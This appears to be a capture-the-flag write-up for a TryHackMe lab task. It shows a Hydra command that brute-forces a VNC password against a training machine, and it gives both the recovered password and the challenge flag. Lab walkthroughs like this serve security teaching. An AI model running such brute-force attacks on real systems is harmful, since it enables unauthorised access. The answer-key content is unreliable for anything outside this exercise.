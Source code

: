 # Day 5

### Use Hydra to find the VNC password of the target with IP address `MACHINE_IP`. What is the password?

```bash
hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.185.111 -V -f -t 4
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
1q2w3e4r
{% endhint %}

* Alternative method with nmap scripts

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

### Using a VNC client on the AttackBox, connect to the target of IP address `MACHINE_IP`. What is the flag written on the target’s screen? 

Connect to vnc with the credentials found in the step above

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
THM{I\_SEE\_YOUR\_SCREEN}
{% endhint %}
